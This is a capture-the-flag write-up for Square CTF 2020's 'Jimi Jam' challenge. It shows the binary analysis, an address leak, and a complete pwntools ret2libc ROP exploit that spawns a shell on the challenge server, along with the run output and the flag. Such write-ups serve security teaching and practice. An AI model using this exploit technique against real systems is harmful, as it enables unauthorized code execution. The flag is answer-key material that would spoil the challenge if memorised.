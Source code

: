 # Jimi Jam

## Task

I'm stuck in Jimi Jam jail

:( Can you let me out?

nc challenges.2020.squarectf.com 9000

File: jimi-jam.zip

Tags: binary exploitation, rop

## Solution

Inside the zip is a binary and a libc:

```bash
$ file jimi-jam libc.so.6
jimi-jam:  ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a0d192104ba33bfc1018faf46131a0ee7b51faa2, for GNU/Linux 3.2.0, not stripped
libc.so.6: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f3ff3fda80b817c464a56eed59ff09dc864eaeb0, for GNU/Linux 3.2.0, stripped
$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```

Let's take a look at main:

```nasm
gdb-peda$ disass main
Dump of assembler code for function main:
   0x000000000000129a <+0>:     endbr64
   0x000000000000129e <+4>:     push   rbp
   0x000000000000129f <+5>:     mov    rbp,rsp
   0x00000000000012a2 <+8>:     mov    rax,QWORD PTR [rip+0x2d77]        # 0x4020 <stdout@@GLIBC_2.2.5>
   0x00000000000012a9 <+15>:    mov    ecx,0x0
   0x00000000000012ae <+20>:    mov    edx,0x2
   0x00000000000012b3 <+25>:    mov    esi,0x0
   0x00000000000012b8 <+30>:    mov    rdi,rax
   0x00000000000012bb <+33>:    call   0x10f0 <setvbuf@plt>
   0x00000000000012c0 <+38>:    mov    rax,QWORD PTR [rip+0x2d69]        # 0x4030 <stdin@@GLIBC_2.2.5>
   0x00000000000012c7 <+45>:    mov    ecx,0x0
   0x00000000000012cc <+50>:    mov    edx,0x2
   0x00000000000012d1 <+55>:    mov    esi,0x0
   0x00000000000012d6 <+60>:    mov    rdi,rax
   0x00000000000012d9 <+63>:    call   0x10f0 <setvbuf@plt>
   0x00000000000012de <+68>:    mov    rax,QWORD PTR [rip+0x2d5b]        # 0x4040 <stderr@@GLIBC_2.2.5>
   0x00000000000012e5 <+75>:    mov    ecx,0x0
   0x00000000000012ea <+80>:    mov    edx,0x2
   0x00000000000012ef <+85>:    mov    esi,0x0
   0x00000000000012f4 <+90>:    mov    rdi,rax
   0x00000000000012f7 <+93>:    call   0x10f0 <setvbuf@plt>
   0x00000000000012fc <+98>:    mov    eax,0x0
   0x0000000000001301 <+103>:   call   0x1209 <init_jail>
   0x0000000000001306 <+108>:   lea    rdi,[rip+0xd23]        # 0x2030
   0x000000000000130d <+115>:   call   0x10b0 <puts@plt>
   0x0000000000001312 <+120>:   lea    rsi,[rip+0x2d47]        # 0x4060 <ROPJAIL>
   0x0000000000001319 <+127>:   lea    rdi,[rip+0xd50]        # 0x2070
   0x0000000000001320 <+134>:   mov    eax,0x0
   0x0000000000001325 <+139>:   call   0x10c0 <printf@plt>
   0x000000000000132a <+144>:   mov    eax,0x0
   0x000000000000132f <+149>:   call   0x1269 <vuln>
   0x0000000000001334 <+154>:   mov    eax,0x0
   0x0000000000001339 <+159>:   pop    rbp
   0x000000000000133a <+160>:   ret    
End of assembler dump.
```

It looks like `printf` at `main+139` leaks us an address.

Connecting to the server:

```bash
$ nc challenges.2020.squarectf.com 9000
Hey there jimi jammer! Welcome to the jimmi jammiest jammerino!
The tour center is right here! 0x5575a2c5b060
Hey there! Youre now in JIMI JAM JAIL
```

We can use the leak of the `ROPJAIL` object from the binary to calculate it's base address and offset our ROP-gadgets accordingly. Then we can leak a libc address to get our shell.

We just need to find out the correct offset for our input. We can do that with `pattern create 2000 pattern.txt` and `run < pattern.txt` in gdb with peda.

If you experience issue while trying to pwn, you can use `gdb.attach(p, gdbscript="b *vuln")` together with your own libc: `$ gcc --print-file-name=libc.so.6`.

```python
from pwn import *
import struct

elf = ELF("./jimi-jam", checksec=False)
libc = ELF("./libc.so.6", checksec=False)
rop = ROP(elf)

p = remote("challenges.2020.squarectf.com", 9000)

info(p.recvline())
info(p.recvuntil("The tour center is right here! "))
addr = p.recvline() # addr leak
info(p.recvline())

elf.address = int(addr, 16) - 0x4060 # base addr

POP_RDI = elf.address + rop.find_gadget(['pop rdi', 'ret'])[0]
PUTS_GOT = elf.got['puts']
PUTS_PLT = elf.address + 0x10b0 # offset in binary
MAIN = elf.symbols['main']

info("pop rdi;ret: %s" % hex(POP_RDI))
info("puts@got: %s" % hex(PUTS_GOT))
info("puts@plt: %s" % hex(PUTS_PLT))
info("main: %s" % hex(MAIN))

payload  = "A"*16 # buffer padding
payload += p64(POP_RDI)
payload += p64(PUTS_GOT)
payload += p64(PUTS_PLT)
payload += p64(MAIN)
# after leaking libc, return to main for another payload

p.sendline(payload)

leak = p.recvline()[:-1]
leak_real = struct.unpack("<Q", leak.ljust(8, "\x00"))[0]

libc.address = leak_real - libc.sym["puts"]
info("libc puts: %s" % hex(leak_real))
info("libc base: %s" % hex(libc.address))

BINSH = next(libc.search("/bin/sh"))
SYSTEM = libc.sym["system"]
RET = elf.address + rop.find_gadget(['ret'])[0]

info(p.recvline())
info(p.recvline())
info(p.recvline())

info("bin/sh: %s" % hex(BINSH))
info("system: %s" % hex(SYSTEM))
info("ret gadget: %s" % hex(RET))

payload  = 'A'*16
payload += p64(RET)
payload += p64(POP_RDI)
payload += p64(BINSH)
payload += p64(SYSTEM)

p.sendline(payload)
p.interactive()
```

Running it:

```bash
$ python2 rop.py
[*] Loaded 14 cached gadgets for './jimi-jam'
[+] Opening connection to challenges.2020.squarectf.com on port 9000: Done
[*] Hey there jimi jammer! Welcome to the jimmi jammiest jammerino!
[*] The tour center is right here!
[*] Hey there! Youre now in JIMI JAM JAIL
[*] pop rdi;ret: 0x5575a2c583a3
[*] puts@got: 0x5575a2c5afa0
[*] puts@plt: 0x5575a2c580b0
[*] main: 0x5575a2c5829a
[*] libc puts: 0x7f156ca685a0
[*] libc base: 0x7f156c9e1000
[*] Hey there jimi jammer! Welcome to the jimmi jammiest jammerino!
[*] The tour center is right here! 0x5575a2c5b060
[*] Hey there! Youre now in JIMI JAM JAIL
[*] bin/sh: 0x7f156cb985aa
[*] system: 0x7f156ca36410
[*] ret gadget: 0x5575a2c5801a
[*] Switching to interactive mode
$ ls
flag.txt
jimi-jam
$ cat flag.txt
flag{do_you_like_ropping}
```
